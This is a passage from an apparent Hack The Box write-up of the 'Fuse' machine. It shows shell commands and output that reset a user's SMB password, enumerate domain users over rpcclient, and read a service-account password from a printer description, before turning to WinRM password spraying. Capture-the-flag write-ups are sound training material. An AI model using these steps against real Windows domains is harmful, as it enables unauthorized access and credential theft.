 So we can reset the password with `smbpasswd` (I just changed it to `Fabricorp02`):

```bash
finlay@kali:~/htb/fuse$ smbpasswd -r 10.10.10.193 -U tlavel
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel
```

## rpcclient

Now we can login with rpcclient using this new password (you have to login quickly after changing the password because it is reset often)

```bash
finlay@kali:~/htb/fuse$ sudo rpcclient -L 10.10.10.193 -U tlavel
Enter WORKGROUP\tlavel's password: 
rpcclient $>
```

We can run `enumdomusers` to get more usernames to add to our users list

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]                   
user:[DefaultAccount] rid:[0x1f7]               
user:[svc-print] rid:[0x450]                    
user:[bnielson] rid:[0x451]              
user:[sthompson] rid:[0x641]          
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]                            
user:[astein] rid:[0x1db2]                                                          
user:[dmuir] rid:[0x1db3]
```

We can also run `enumprinters` to get a password

```bash
rpcclient $> enumprinters
        flags:[0x800000]                 
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]                      
        comment:[]
```

## WinRM

Now we can try using metasploit's win-rm module to see if we can login with any users using this password.
